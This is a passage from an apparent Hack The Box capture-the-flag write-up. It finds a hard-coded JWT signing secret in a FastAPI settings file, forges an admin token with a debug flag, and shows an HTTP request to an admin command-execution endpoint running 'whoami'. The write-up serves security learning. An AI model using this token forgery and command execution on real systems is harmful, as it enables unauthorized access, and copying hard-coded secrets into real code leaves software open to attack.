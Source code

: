 ```python
    @validator("BACKEND_CORS_ORIGINS", pre=True)
    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:
        if isinstance(v, str) and not v.startswith("["):
            return [i.strip() for i in v.split(",")]
        elif isinstance(v, (list, str)):
            return v
        raise ValueError(v)

    SQLALCHEMY_DATABASE_URI: Optional[str] = "sqlite:///uhc.db"
    FIRST_SUPERUSER: EmailStr = "root@ippsec.rocks"

    class Config:
        case_sensitive = True


settings = Settings()
```
And in the first lines we can notice:  
```python
JWT_SECRET: str = "SuperSecretSigningKey-HTB"
```
Now that we have the JWT secret we can sign a new token with the `"debug": true` flag.  
To do this we can go to [jwt.io debugger](https://jwt.io)and sign a new token using the secret key.  
![](Attachments/Pasted%20image%2020220728172909.png)
With the newly generated token we can try again the command execution:  
```http
GET /api/v1/admin/exec/whoami HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
```